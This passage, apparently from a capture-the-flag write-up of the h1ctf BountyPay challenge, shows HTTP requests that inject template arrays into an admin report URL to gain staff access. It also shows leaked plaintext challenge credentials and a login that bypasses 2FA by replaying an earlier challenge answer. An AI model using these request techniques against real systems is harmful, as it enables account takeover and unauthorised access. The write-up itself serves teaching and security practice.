 Then I realized that passing multiple values in the array would render [multiple templates on the same page](https://staff.bountypay.h1ctf.com/?template[]=login&template[]=ticket).

After a bit I figure out the correct URL to report.

```http
GET /admin/report?url=<@base64_2>/?template[]=login&username=sandra.allison&template[]=ticket&ticket_id=3582#tab3<@/base64_2> HTTP/1.1
Host: staff.bountypay.h1ctf.com
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR09NOVM5N0IvVGtnM2g3TmhWU0lENlV5WVJLRHlmRlZMMXZvZUVPWWVKdGYvRWRGcXozbVVUWXFldWtmdmlVQzQxQ0FTR2V5U0w3WEMxWnltMlpjNzBISitQZ1RhZVJsNDY3TlBGbnBQY3VaTkwvSEEwTURoc3lsZy8xMVpPTHg5UDVoR21ZeUk1TlM5VlJhSCs0VGZkNFl2Ullj
```

annnnnnd...

```http
HTTP/1.1 200 OK
Content-Type: application/json
Set-Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR09NOVM5N0IvVGtnM2g3TmhWU0lENlV5WVJLRHlmRlZMMXZvZUVPWWVKdGYvRWRGcXozbVVUWXFldWtmdmlVQzQxQ0FTR2V5U0w3WEMxWXZvVjl5K1gzQTlmZ1RhZVJsNDY3TlBGbnBQY3VaTkwrUkJrVlZoYy96aEtjZ043YWhwdmx2SEdwaWNKVUMrRlJkU2VCRUtkZ2I2aFlj; expires=Sun, 05-Jul-2020 18:58:11 GMT; Max-Age=2592000; path=/
Content-Length: 19

["Report received"]
```

We're in. Re-visiting the homepage, a full list of users and plain-text passwords is now on tab 4.

```
marten.mickos
h&H5wy2Lggj*kKn4OD&Ype
```

# Back at app.bountypay.h1ctf.com

## Getting in

Back on the customer site, we login with the new credentials and bypass the 2FA the same way as before, re-using the same challenge and challenge answer.

```http
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 130

username=marten.mickos&password=h%26H5wy2Lggj*kKn4OD%26Ype&&challenge=5828c689761cce705a1c84d9b1a1ed5e&challenge_answer=bD83Jk27dQ
```

## The new `token` cookie
